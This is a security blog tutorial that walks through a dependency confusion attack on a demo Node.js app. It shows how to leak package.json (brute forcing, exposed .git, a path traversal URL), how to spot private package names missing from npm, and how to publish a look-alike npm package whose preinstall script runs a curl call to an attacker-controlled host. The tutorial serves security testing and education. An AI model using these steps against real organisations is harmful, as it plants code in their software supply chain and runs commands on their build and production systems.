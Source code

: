 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-06-01 13:37:31
description: Exploiting Dependency Confusion
---
```


This blog is a step by step guide to exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, you can read about that [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The Frontend allows users to input a string which is sent to backend and checked against XSS payload in it. Backend checks if string from frontend has XSS payload in it or not and relay response back to Frontend.

### Backend

Backend is running at http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running at http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result backe on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find as much as possible external packages used in the web application.
### What are packages?

We can think of packages as `Developers sharing code with other developers for reuse`. 

### Public vs Private Registry

Suppose a developer develops a mongo database wrapper to enable MongoDB connection. If he wantes to avail this package to other developers, he can make a package and publish it to an `public` registry(central repository) and other developers can reuse it. 

In case you do not want to share your package with everyone in the world and keep it secret to people in your organization you can host your packages on a `private` organization registry and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So you can always host a private registry and host your private packages there. You can read more [here](https://verdaccio.org/)

## Exploiting demo app

Our primary objective as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works. It first looks at public registry and then private registry).
### Step 1

Find Packages installed in backend application. For this we will need to leak the **package.json** file somehow. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json try reading **package.json** directly
    * http://site.com/package-lock.json try reading **package-lock.json** directly. It also contains information about packages installed.

* Using Nuclei template. [Nuclei](https://github.com/projectdiscovery/nuclei) has numerous template for sensitive information leak. 

* Leaking application' source code. If application is vulnerable to Local file disclosure, we can use it to leak **package.json**
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and other places. If we get application's source code, we can extract **package.json** from it

etc.. The Objective here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see that **package.json** file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. Follow the following steps:
* Reviewing frontend source code and looking for imported packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Applications usually do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is **NOT** on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I can't find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit `package.json` following fields
    * Change module name from `"name": "your-module-name",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version from `"version": "1.0.0",` to `"version": "1.0.0",`
        * Th leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use that same version
    * Change preinstall script from `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the bash command that gets executed. Put your RCE payload here
    After Editing, the `package.json` should look like:
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from [https://zellwk.com/blog/publish-to-npm/](https://zellwk.com/blog/publish-to-npm/) . Here's the same steps:
    * Login/Signup into npm from [https://www.npmjs.com/signup](https://www.npmjs.com/signup)
    * Open terminal/bash and login into `npm` public registry from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run `npm publish .` in terminal and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on [https://npmjs.com](https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 6 steps, you should be able to properly test an application against dependency confusion vulnerability. 

Nuclei have a template [here](https://github.com/projectdiscovery/nuclei-templates/blob/83ce809e8d427d485f3e0f787886c0eb938736a6/exposures/configs/package-json.yaml) which you can use to find `package.json` file. 

I hope this helps. Thanks for reading 
Special thanks to [Santosh](https://twitter.com/Madrobot_) for proof reading and helping me write this blog.

